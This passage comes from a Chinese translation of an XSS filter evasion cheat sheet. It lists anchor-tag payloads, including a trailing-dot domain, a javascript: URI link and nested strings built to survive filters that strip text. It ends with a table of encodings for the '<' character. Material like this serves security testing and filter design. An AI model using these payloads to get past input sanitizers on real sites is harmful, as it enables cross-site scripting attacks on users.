 ```
<A HREF="http://google.com/">XSS</A> 
```

**绝对 DNS 用额外的点**

```
<A HREF="http://www.google.com./">XSS</A> 
```

**JavaScript link location**

```
<A HREF="javascript:document.location='http://www.google.com/'">XSS</A> 
```

**针对内容替换的攻击向量**
假设 "http://www.google.com/" 会被替换为空。我确实使用了一个简单的攻击向量去针对特殊文字过滤依靠过滤器本身。这是一个例子去帮助创建向量。（IE: "java script:" 被替换为"java script:", 它是仍可以工作在 IE,使用安全模块的 Netscape 8.1+ 和 Opera）

```
<A HREF="http://www.gohttp://www.google.com/ogle.com/">XSS</A> 
```

* * *

## 字符编码表

再付 "<" 在 html 或是 javascript 中所有可能的编码形式。它们绝大多数是无法正常渲染的，但是可以在上文中某些情景下得到渲染。

```
<
%3C
&lt
&lt;
&LT
&LT;
&#60
&#060
&#0060
&#00060
&#000060
&#0000060
&#60;
&#060;
&#0060;
&#00060;
&#000060;
&#0000060;
&#x3c
&#x03c
&#x003c
&#x0003c
&#x00003c
&#x000003c
&#x3c;
&#x03c;
&#x003c;
&#x0003c;
&#x00003c;
&#x000003c;
&#X3c
&#X03c
&#X003c
&#X0003c
&#X00003c
&#X000003c
&#X3c;
&#X03c;
```